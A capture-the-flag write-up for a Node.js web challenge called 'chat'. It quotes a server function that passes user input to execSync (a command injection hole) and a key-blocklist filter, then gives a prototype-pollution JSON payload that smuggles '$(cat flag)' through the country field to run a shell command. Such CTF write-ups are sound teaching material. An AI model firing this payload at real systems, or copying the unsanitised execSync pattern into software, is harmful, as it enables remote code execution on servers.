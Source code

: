 ```yaml
---
name: chat
category: web
points: 211
solves: 44
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.cf/ctf-tasks-writeup/)
{% endignore %}

> We received a new gig.
> Our goal is to review this application written in nodejs and see if we can get the flag from this system.
> Are you up for this?

## Time
10 minutes

# Solution
## TL;DR
* Inject country field using proto pollution to get RCE.

## Vulnerability
When a user join a channel,
server will broadcast a ascii art created using cowsay.
The function getAscii has command injection vulnerability.
```javascript
helper.getAscii("User " + u + " living in " + c + " joined channel")
// ...
{
    getAscii: function(message) {
        var e = require('child_process');
        return e.execSync("cowsay '" + message + "'").toString();
    }
}
```
Where `u` is `name` and `c` is `country`.
They have a WAF for input:
```javascript
{
    validUser: function(inp) {
        var block = ["source","port","font","country",
                     "location","status","lastname"];
        if(typeof inp !== 'object') {
            return false;
        }

        var keys = Object.keys( inp);
        for(var i = 0; i< keys.length; i++) {
            key = keys[i];

            if(block.indexOf(key) !== -1) {
                return false;
            }
        }

        var r =/^[a-z0-9]+$/gi;
        if(inp.name === undefined || !r.test(inp.name)) {
            return false;
        }

        return true;
    }
}
```
They use `Object.keys` to blacklist some fields,
and use a custom clone function,
which is vulnerable to proto pollution.

Register with `{"name":"a","__proto__":{"country":"'$(cat flag)'"}}` to get the flag.

